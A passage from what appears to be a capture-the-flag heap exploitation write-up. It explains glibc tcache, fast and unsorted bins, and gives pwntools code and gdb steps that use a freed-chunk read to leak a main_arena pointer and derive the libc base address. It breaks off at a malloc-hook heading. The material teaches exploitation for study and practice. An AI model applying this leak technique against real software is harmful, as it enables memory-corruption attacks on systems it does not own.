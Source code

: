 The *Tcache* list we mentioned before is actually bounded to hold up to 7 chunks, whatever gets freed after that will be sorted in other locations according to its size and carachteristics.
If it doesn-t fit in the *Tcache* it may actually go in some of the following:
* fast bins
* unsorted bins
* others

Fast bins are special containers that hold unlimited single-linked lists of chunks of dimensions up to `0x80` bytes.
They're actually divided according to the size they hold: same sized chunks will go into the same fast bin.

Unsorted bins would instead store a double-linked list of chucnks of arbitrary size and they're relevant to us as the first chunk gets written inside it the address of the `main_arena` which is at a fixed offset in libc.
This can be easily exploited bu us as we can read the content of a chunk even after having freed it but we need to be sure that when the `free` function gets called it moves the chunk inside the unsorted bins.
To achieve this:
```python
# We allocate a bunch of chuncks that are larger than the max size of fast bins
for i in range(10):
    alloc(i, 0x90)
# We free 7 of them to fill the Tcache
for i in range(7):
    free(i)
# When we free another one it will go into the unsorted bins
free(8)
```
Using the attached gdb debugger we can inspect the bins and examine the content of the chunks:
```
# show all the bins and freed chunks
(gdb) heap bins
# under unsorted bin a chunk will appear, let's examine the memory at that address
(gdb) x/2gx <unsorted chunk>
# displayed hex values will be the address of the main arena, let's compute the offset from libc
# show where libc is currently loaded
(gdb) vmmap
# take the section of libc that's red (i.e. marked as executable)
(gdb) p <addr inside unsorted chunk> - <libc base>
```

```python
# Here is the computed offset
offset = 0x3afca0
# Which we can subtract from the value we read to compute libc base address at runtime
libc_base = view(8) - offset
print(f"Leaked libc base address: {hex(libc_base)}")
# And set into pwntools for later use
libc.address = libc_base
```

### Malloc Hook (Failed Attempt)
